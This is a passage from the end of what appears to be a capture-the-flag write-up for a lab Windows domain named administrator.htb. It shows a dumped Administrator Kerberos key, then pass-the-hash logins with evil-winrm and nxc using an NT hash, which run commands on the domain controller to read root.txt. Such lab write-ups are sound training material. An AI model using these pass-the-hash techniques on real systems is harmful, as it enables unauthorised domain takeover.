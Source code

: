 ```console
Administrator:des-cbc-md5:403286f7cdf18385
[*] Cleaning up...
```

We have sucessfully compromised the domain and can now grab the root flag.

```console
$ evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/17/2024  11:49 AM             34 root.txt

$ nxc winrm 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -x 'type Desktop\\root.txt'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] Executed command (shell type: cmd)
WINRM       10.10.11.42     5985   DC               <REDACTED>
```
